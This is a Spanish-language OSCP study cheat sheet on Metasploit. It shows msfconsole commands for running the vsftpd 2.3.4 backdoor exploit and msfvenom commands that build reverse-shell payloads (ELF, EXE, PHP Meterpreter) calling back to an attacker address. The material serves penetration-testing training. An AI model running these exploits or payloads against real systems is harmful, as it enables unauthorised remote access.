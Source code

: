 Metasploit es un framework completo de explotación, post-explotación y generación de payloads. Aunque su uso está limitado en OSCP (solo permitido en 1 máquina), `msfvenom` y `msfconsole` siguen siendo herramientas clave para la fase de explotación y payload crafting.

---

## 1. msfconsole — Uso Básico

Iniciar el framework:
```bash
msfconsole
```

Buscar exploits:
```bash
search vsftpd
search type:exploit platform:windows smb
```

Seleccionar un módulo:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Ver opciones y configurar:
```bash
show options
set RHOSTS <IP>
set LHOST <tu_IP>
set LPORT 4444
set PAYLOAD linux/x86/shell_reverse_tcp
run
```

---

## 2. msfvenom — Generación de Payloads

### Sintaxis general:
```bash
msfvenom -p <payload> LHOST=<tu_IP> LPORT=<puerto> -f <formato> > output
```

### Ejemplos comunes:

#### Shell reversa en formato ELF:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.1 LPORT=4444 -f elf > shell.elf
```

#### Shell reversa para Windows (EXE):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.1 LPORT=4444 -f exe > shell.exe
```

#### Payload para inyectar en PHP:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.11.0.1 LPORT=4444 -f raw
```

---

## Formatos soportados
- `exe`, `elf`, `raw`, `asp`, `php`, `psh`, `bash`, `war`, `js`, `hta`, `c`, etc.

---

## Casos de Uso OSCP
- Generar payloads personalizados para subida tras vulnerabilidad
- Usar `msfconsole` para exploits conocidos (solo en 1 máquina)
- Adaptar shells a formatos específicos (web, powershell, binarios)

---

## Buenas Prácticas
- Usa `--platform`, `--arch` si necesitas precisión (ej. x64 vs x86)
- Redirige la salida a un archivo (`>`) solo si es binario o código
- Nunca uses Metasploit como primer recurso: en OSCP es penalizable

---
